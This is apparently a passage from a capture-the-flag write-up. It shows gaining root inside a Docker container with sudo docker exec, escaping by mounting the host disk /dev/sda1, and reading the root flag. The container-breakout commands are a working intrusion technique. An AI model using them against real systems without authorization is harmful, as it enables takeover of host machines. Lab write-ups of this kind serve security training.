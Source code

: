 ```bash
sudo /snap/bin/docker exec -u 0 -it e6ff5b1cbc85 /bin/bash
```

Now inside the container **as root**:

```bash
whoami
# root
```


### 4. Attempt Breakout from Container

Inspect mounts:

```bash
mount | grep -vE 'proc|tmpfs|sysfs|cgroup'
```

Key discovery:

```
/dev/sda1 on /etc/hostname type ext4
/dev/sda1 on /etc/hosts type ext4
```

This implies `/dev/sda1` is the **host filesystem**, and we can mount it manually:

```bash
mkdir /mnt/host
mount /dev/sda1 /mnt/host
cd /mnt/host
```

We now see the **full host filesystem**:

```bash
ls /mnt/host
# bin  boot  dev  etc  home  root  ...
```


### 5. Read the Root Flag

```bash
cd /mnt/host/root
ls -la
cat root.txt
```
